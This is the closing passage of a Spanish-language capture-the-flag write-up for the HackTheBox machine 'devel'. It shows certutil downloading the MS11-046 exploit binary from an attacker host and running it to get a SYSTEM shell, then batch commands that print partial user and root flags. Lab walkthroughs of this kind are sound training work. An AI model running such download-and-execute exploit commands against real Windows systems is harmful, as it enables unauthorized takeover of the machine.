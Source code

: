 ```bash
cd C:\Windows\Temp
certutil.exe -f -urlcache -split http://10.10.14.15/MS11-046.exe
MS11-046.exe
whoami
nt authority\system
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt
C:\Users\babis\Desktop\user.txt
set /P user=<"C:\Users\babis\Desktop\user.txt"
echo.%user:~0,10%
455111f4a9
```

```bash
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~0,10%
655befe588
```

¡Hemos logrado completar la máquina `devel` de HackTheBox!

<p align="center">
<img src="/assets/images/devel/09-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
